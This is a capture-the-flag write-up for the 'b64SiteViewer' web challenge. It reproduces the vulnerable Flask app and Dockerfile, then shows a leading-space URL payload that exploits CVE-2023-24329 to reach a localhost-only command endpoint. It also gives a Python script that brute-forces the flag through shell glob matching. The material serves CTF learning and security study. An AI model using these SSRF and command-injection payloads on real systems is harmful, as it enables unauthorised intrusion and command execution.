




# WEB/b64SiteViewer



Upon opening the provided challenge link, we are presented with a site that looks like this:



Before testing the input field, we should examine the source code provided for this challenge.

### Dockerfile

```docker
FROM python:3.9.7

COPY /challenge /chall

WORKDIR /chall

RUN mv flag.sh /usr/local/bin/flag

RUN pip install -r requirements.txt

ENV flag ironCTF{redacted}

EXPOSE 5000

CMD ["python","-m","app"]
```

### app.py

```python
from flask import render_template,render_template_string,Flask,request
from urllib.parse import urlparse
import urllib.request
import random
import os
import subprocess
import base64
app=Flask(__name__)
app.secret_key=os.urandom(16)

@app.route('/',methods=['GET','POST'])
def home():
    if request.method=='GET':
        return render_template('home.html')
    if request.method=='POST':
        try:
            url=request.form.get('url')
            scheme=urlparse(url).scheme
            hostname=urlparse(url).hostname
            blacklist_scheme=['file','gopher','php','ftp','dict','data']
            blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
            if scheme in blacklist_scheme:
                return render_template_string('blocked scheme')     
            if hostname in blacklist_hostname:
                return render_template_string('blocked host')
            t=urllib.request.urlopen(url)
            content = t.read()
            output=base64.b64encode(content)
            return (f'''base64 version of the site:
                {output[:1000]}''')
        except Exception as e:
                print(e)
                return f" An error occurred: {e} - Unable to visit this site, try some other website."

@app.route('/admin')
def admin():
    remote_addr = request.remote_addr
    
    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")

if __name__=="__main__":
    app.run(host='0.0.0.0',port='5000')

```

### flag.sh

```bash
#!/bin/bash

inp=$1

if [[ $flag == $inp ]]
then
	echo "This is the flag"
else
	echo "no"
fi
```

### Intended solution:

A close examination of the Dockerfile reveals two important hints: 

1. Python 3.9.7 is used, which is an older version with some significant known vulnerabilities.
2. The [flag.sh](http://flag.sh) script is moved into /usr/local/bin as flag which indicates that we can execute the flag.sh script as flag from anywhere.

Now, if you examine the [app.py](http://app.py) file, you'll see that the application uses urllib to open a site, convert its contents to base64, and return the first 1000 characters.

In order to execute any script, one has to send a request from [localhost](http://localhost) or 127.0.0.1 to the /admin endpoint with the desired command. 

Since urlib is used here and the python version is 3.9.7 its vulnerable to **CVE-2023-24329,** you can find more details here [https://nvd.nist.gov/vuln/detail/CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329)

We can use this vulnerability to send a request to /admin as [localhost](http://localhost) using a blank space in the begining of the input.

```
POST / HTTP/2
Host: b64siteviewer.1nf1n1ty.team
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://b64siteviewer.1nf1n1ty.team
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://b64siteviewer.1nf1n1ty.team/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

url=   http://127.0.0.1:5000/admin?cmd=ls

#notice the blank space at the starting .
```

Now, the objective is to run the [flag.sh](http://flag.sh) script because the script uses a weak comparison between the flag and our input string. `[[ $flag == $inp ]]`

We can get the flag character by character using the wildcard operator(*) ,if the correct character matches we get the output “this is the flag” , if not we get “no”.

Since we know the flag format and it contains only loweracase alphanumeric characters we can easily script it out using python .

### solve.py

```python
import requests

url='https://b64siteviewer.1nf1n1ty.team/'
brute='0123456789abcdefghijklmnopqrstuvwxyz}'
pay='ironCTF{'
while pay[-1]!='}':
	for i in brute:
		temp=pay+i
		payload={"url":f'  http://127.0.0.1:5000/admin?cmd=flag%20{temp}*'}
		res=requests.post(url=url,data=payload)
		if 'bm8K' not in res.text:
			pay=pay+i
			print(pay)
			break
			
print("flag is :",pay)
```



flag is : **ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}**

### Unintended Solution:

If you didn't focus on bypassing the blacklist, you would have ended up with the above method. However, if you spent some time trying to find the blacklist, you could have easily solved the challenge. This is because we didn't block commands like head, tail, less, more .

```python
url=   http://127.0.0.1:5000/admin?cmd=tail%20*
```

